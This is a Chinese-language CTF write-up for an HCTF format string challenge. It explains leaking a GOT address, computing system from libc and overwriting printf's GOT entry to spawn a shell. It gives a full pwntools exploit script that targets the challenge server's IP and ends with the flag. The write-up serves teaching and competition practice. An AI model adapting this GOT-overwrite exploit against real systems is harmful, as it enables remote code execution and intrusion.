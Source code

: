 ```cpp
        default:
            printf("???\n");
            fflush(0);
        }
    }
}
```

有了源码，我就不放ida反编译的版本了。

这道题目是一个格式化字符串漏洞实现任意地址读和写的漏洞。

大致思路是先测出格式化字符串的偏移，然后利用格式化字符串leak出got表里printf的真实地址。根据题目提供的libc库算出system和printf的偏移量，从而得到system的真实地址，再利用格式化字符串漏洞把system的真实地址写到got表中原printf的位置上，最后调用get_flag中的printf(buffer)，传入的buffer为“/bin/sh\x00”，printf被覆盖成system，从而get shell。


```python
from pwn import *
#context.log_level = 'debug'
libc = ELF('/lib32/libc.so.6')
pwn4 = ELF('pwn4')
def exec_fmt(payload):
	print cn.recvuntil('flag\n')
	cn.sendline('2')
	print cn.recvuntil('flag!\n')
	cn.send(payload)
	cn.recvuntil('is ')
	ret = cn.recvline()
	return ret

#cn = process('pwn4')
cn = remote('121.42.206.184',10002)
#///////////////////////// get fmt length
auto_fmt = FmtStr(exec_fmt)
print '\nget fmt length######'

#///////////////////////// leak p_printf
print cn.recv()
cn.sendline('1')
print cn.recv()
cn.sendline('2')
print cn.recvuntil('flag!\n')
cn.send(p32(pwn4.got['system'])+'START%7$sEND')
cn.recvuntil("START")
p_system = u32(cn.recv()[:4])
print '\n##########p_system'+hex(p_system)
chg_got = fmtstr_payload(auto_fmt.offset, {pwn4.got['printf']: p_system})
cn.sendline('2')
print cn.recvuntil('flag!\n')
cn.send(chg_got)
print cn.recv()
cn.sendline('2')
print cn.recvuntil('flag!\n')
cn.send('/bin/sh\x00')
cn.interactive()
```

flag：`hctf{format_string_make_sense}`